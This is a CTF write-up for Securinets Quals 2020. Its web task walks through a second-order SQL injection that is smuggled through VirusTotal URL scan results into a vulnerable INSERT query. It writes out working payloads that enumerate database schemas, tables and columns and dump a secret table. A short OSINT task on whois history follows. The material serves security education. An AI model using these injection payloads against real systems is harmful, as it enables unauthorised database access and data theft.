<p align="center">

</p>

# CTFSecurinets Quals 2020 Writeup
This repository serves as a writeup for CTFSecurinets Quals 2020

## Empire Total

**Category:** Web
**Points:** 1000
**Solves:** 7
**Author:** TheEmperors
**Description:**

>In this task, you have to hack the website and get the flag from the database. This task doesn't need any brute force, you can read the source code :

>`git clone https://github.com/mohamedaymenkarmous/virustotal-api-html`

>For more information: read the description inside the task:

>Link: https://web0.q20.ctfsecurinets.com

**Hint:**

> No hint.

<p align="center">

</p>

### Write-up
When you visit the task page, you will get this page

<p align="center">

</p>

So, this platform is scanning the IP addresses from Virus Total. And we can do that from this link [https://www.virustotal.com/gui/home/search](https://www.virustotal.com/gui/home/search).

Let's try and scan an IP address. For example: `200.200.200.200` : [https://www.virustotal.com/gui/ip-address/200.200.200.200/relations](https://www.virustotal.com/gui/ip-address/200.200.200.200/relations).

<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>

Which are basically the only information that we will need.

This example was done directly on Virus Total.

Now, we will do the same test on the task:

<p align="center">

</p>

The first thing that we will notice, if we keep the page longer without doing any request, we will get an invalid captcha error from the URL only when performing a new scan.

Let's do again a new scan with the `200.200.200.200` IP address:


<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>

The 2 results are the same. And the task goal is to retrieve the flag from the database which smells like an SQL injection.

We don't need to worry about that because we will know about it when we start reviewing the source code from the Github project: [https://github.com/mohamedaymenkarmous/virustotal-api-html/tree/84be0189537a0b780d89a0e7b9c4e375f6893eb4](https://github.com/mohamedaymenkarmous/virustotal-api-html/tree/84be0189537a0b780d89a0e7b9c4e375f6893eb4).

Since the idea is to get access to the database, we should try to find any vulnerability in the [www/index.php](https://github.com/mohamedaymenkarmous/virustotal-api-html/blob/84be0189537a0b780d89a0e7b9c4e375f6893eb4/www/index.php) and the [VirusTotal.py](https://github.com/mohamedaymenkarmous/virustotal-api-html/blob/84be0189537a0b780d89a0e7b9c4e375f6893eb4/VirusTotal.py) files.

But after reviewing the www/index.php file, the `$_GET` parameter was sanitized and it should really match with a real IP address. Also the mysql queries are prepared with PDO. The captcha_response was not really sanitized but it would never help.

Starting from here, we don't have nothing to exploit which is so sad. That's an impossible mission.

But after reviewing the VirusTotal.py file, we was surprised about the SQL queries that were not prepared.

<p align="center">

</p>

But the IP address that is supposed to help us with the SQL injection is sanitized. So what to do ? Maybe we can perform the SQL injection from somewhere by back-tracking the fields that are inserted in the database and have a clue if we can proceed with the SQL injection from somewhere.

By searching for recursively the parent method that is calling the methods that are executing the SQL queries, we will get to the main() method and by searching from where comes the data that is inserted in the database, we will get to this line [VirusTotal.py#L484](https://github.com/mohamedaymenkarmous/virustotal-api-html/blob/84be0189537a0b780d89a0e7b9c4e375f6893eb4/VirusTotal.py#L484) that is sending the sanitized IP address (received from the parent www/index.php page) to VirusTotal for scanning using the VirusTotal API [VirusTotal.py#L159](https://github.com/mohamedaymenkarmous/virustotal-api-html/blob/84be0189537a0b780d89a0e7b9c4e375f6893eb4/VirusTotal.py#L159).

This is as expected from this platform which works as a gateway between the user and Virus Total by scanning the IP addresses that are set from the user.

And what if we can perform the SQL injection using the result that are received from Virus Total ?

According to the result that is returned after scanning the 200.200.200.200 IP address, we can notice that there are URL results. But how Virus Total get these URLs ? It's simple, you only need to scan the URL in Virus Total. The link should be alive with a HTTP status equal to 200.

I searched for a website that can be accessible via URL to make it very easy so we can avoid websites that have a domain name that is resolved by multiple IP addresses. I found this URL: http://104.43.165.137/

It's content is not meaningful and I don't recommend anyone to access to strange IP address blindly because it can host a malicious website.

To make the explanation easy, I will go straight to the point. To solved this task you need to download the Github project and do the following actions:

- Edit the [database.sql](https://github.com/mohamedaymenkarmous/virustotal-api-html/blob/84be0189537a0b780d89a0e7b9c4e375f6893eb4/database.sql) file and replace the `---REDACTED---` information. Since this project works with 3 different mysql users, the task should be doing that. This trick will help with getting an environment similar to the task. Because having 3 users (each using with a permission: select, select+insert, update), will show us some limitations and restrictions about the query that we will be using to perform the SQL injection.

- Install the project like adviced in the README.

- Edit the newly created file config.json and add your newly created Virus Total API key and add the mysql credentials for the 3 users.

- If possible, use some print() while debuging the VirusTotal.py script.

- Run the script using `./VirusTotal "<IP>"`. For example: `./VirusTotal "104.43.165.140"`

Since in the task, no errors are shown, we need to persist the result of the sql injection so we will be exploiting the insert query with the user that have the select+insert privileges.

The first time, I was performing the SQL injection using a single query by inserting a single row and by escaping the rest of the query: `http://104.43.165.137/?id=1',database(),'')--`.

But I got this error everytime I try to escape the INSERT query:

```
<a href="https://www.virustotal.com/gui/url/53555e94ab4ef056c089247f07caa1f846257f74e0ae0be5ccc28205a06ed811/detection">http://104.43.165.137/?id=1',database(),'')--</a>
INSERT INTO vt_scanned_urls_table (ip_id,url,detections,scanned_time) VALUES ('36','<a href="https://www.virustotal.com/gui/url/53555e94ab4ef056c089247f07caa1f846257f74e0ae0be5ccc28205a06ed811/detection">http://104.43.165.137/?id=1',database(),'')--</a>','<span style="color:green">0</span>/76','2020-03-24 01:52:22')
EXCEPTION:  1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '--</a>','<span style="color:green">0</span>/76','2020-03-24 01:52:22')' at line 1
```

Which means I can't escape it. I have to accept it and perform a clean INSERT SQL query even though this query works perfectly when using mysql CLI.

So, the idea was to insert 2 rows in the same query by using: `INSERT INTO <table> (columns,...) VALUES (row1 values,...), (row2 values,...)`.

When you will come to test your query on VirusTotal, you will notice that the `#` character is deleted. The space character is encoded so we can replace it with a comment `/**/`. That's all.

We will try to find the current database for testing: `http://104.43.165.137/?id=1',database(),''),(28,'1`

Please note that `28` is the foreigh key associated to the ips table which should be valid and we supposed it to be valid since there were no deleted rows from that table.

Then, we scan the IP address in the Empire Total:

<p align="center">

</p>

This is the output generated from Virus Total directly since as explained under the form: when an IP address was not scanned in less than one minute, the result will be shown from VirusTotal directly. Otherwise, the results will be queried from the database and shown from there. But since the SQL injection is performed while inserting a customized query crafted from Virus Total, we can't see it the first time because it will not be queried from the database. But we will see it when we scan the IP address the second time while the one minute is not finished yet.

After scanning the IP address the second time in less than one minute:

<p align="center">

</p>

We can confirm that we can see the database name `vt_scanned_ips_db`.

So, we will be replacing the `database()` by another SELECT query to get all the database names so we can guess where is the flag: `select group_concat(distinct table_schema) from information_schema.tables`

`http://104.43.165.137/?id=3%27,(select/**/group_concat(distinct/**/TABLE_SCHEMA)/**/from/**/information_schema.tables),%27%27),(28,%271`

And this is the result:

<p align="center">

</p>

So, there is a secret database `MySecretDatabase`.

Getting its tables: `select group_concat(table_name) from information_schema.tables where table_schema='MySecretDatabase'`

`http://104.43.165.137/?id=4',(select/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema='MySecretDatabase'),''),(28,'1`

<p align="center">

</p>

So the table names were: `DefinitlyNotASecretTable,NotHere,NotThisOne,SameHere,SecretTable` separated with a `,`.

Maybe the most interesting table is `SecretTable`.

Let's get its columns before dumping its data: `select group_concat(column_name) from information_schema.columns where table_schema='MySecretDatabase' and table_name='SecretTable'`

`http://104.43.165.137/?id=7',(select/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_schema='MySecretDatabase'/**/and/**/table_name='SecretTable'),(SELECT/**/USER())),(28,'1`

<p align="center">

</p>

So, the column names are `id,secret_name,secret_value` separated with a `,`.

Let's get all the `secret_value` column values: `select group_concat(secret_value) from MySecretDatabase.SecretTable`

`http://104.43.165.137/?id=8',(select/**/group_concat(secret_value)/**/from/**/MySecretDatabase.SecretTable),(SELECT/**/USER())),(1,'1`

<p align="center">

</p>

And that's how we get the flag.

So the flag is `Securinets{EmpireTotal_Pwn3D_fr0m_Th3_0th3r_S1de}`.

### Other solutions

For more intresting details see [this write-up from @github.com/kahla-sec/CTF-Writeups](https://github.com/kahla-sec/CTF-Writeups/blob/master/Securinets%20Prequals%202k20/Empire%20Total/README.md)

___


## C2 Servers Hunting

**Category:** OSINT
**Points:** 919
**Author:** TheEmperors
**Description:**

>The Emperor accidentally installed a malware that made him lose everything because his credentials got stolen.

>After analyzing his computer, we found multiple network communications with these domains:

>`c2-securinets-2020.info`

>`c2-securinets-2020.ovh`

>`c2-securinets-2020.com`

>`c2-securinets-2020.site`

>Could you try to find the owner of at least one of these domains ?

>The flag is in the owner name. You will find the flag already in this format Securinets{}. If you didn't find this, so you didn't find the flag.


<p align="center">

</p>

### Write-up

We have 4 domains to search their owners as customers. The first thing that comes in mind is whois websites that we find on Google search.

But, when we try to find the information related to these domains, we only find this:

<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>

Which is kinda like poor. Even after searching the same domains on different whois websites, we find the same information. All the wanted information is REDACTED.

Maybe there was a website that still have the information about the websites before it gets redacted. A website that keeps the registrars whois history.

By searching on Google using `"whois history"`, we get the wanted website on the third page:

<p align="center">

</p>

And by searching on Duckduckgo, we get the same wanted website on the first page:

<p align="center">

</p>

This website is known for searching whois records especially for newly created domains from different registrars (not all of them):

<p align="center">

</p>

On Cyber Threat Analysis, this website is famous even if it doesn't always give the best results. But, most of the cases you will be happy from its results (I'm not promoting it).

As explained on the task description, during this task, you need to use Ctrl+F to search for the flag format `Securinets{` to notice that you found the flag.

After trying to query for the 4 domain names on Whoxy, only one domain will show the flag which is : `c2-securinets-2020.com`: https://www.whoxy.com/c2-securinets-2020.com

<p align="center">

</p>

So, the flag is `Securinets{Emper0r_Of_C2_Serv3rs}`.
___


# Scoreboard

This is the tasks list released on the CTF:

<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>

And, this is the scoreboard and the rankin for the 50/430 teams that they solved at least one task in this CTF :

<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>
<p align="center">

</p>

If you need the Json file of the scoreboard, you can find it [here](https://www.majorleaguecyber.org/events/122/ctf-securinets-quals-2020/scoreboard.json?format=legacy)

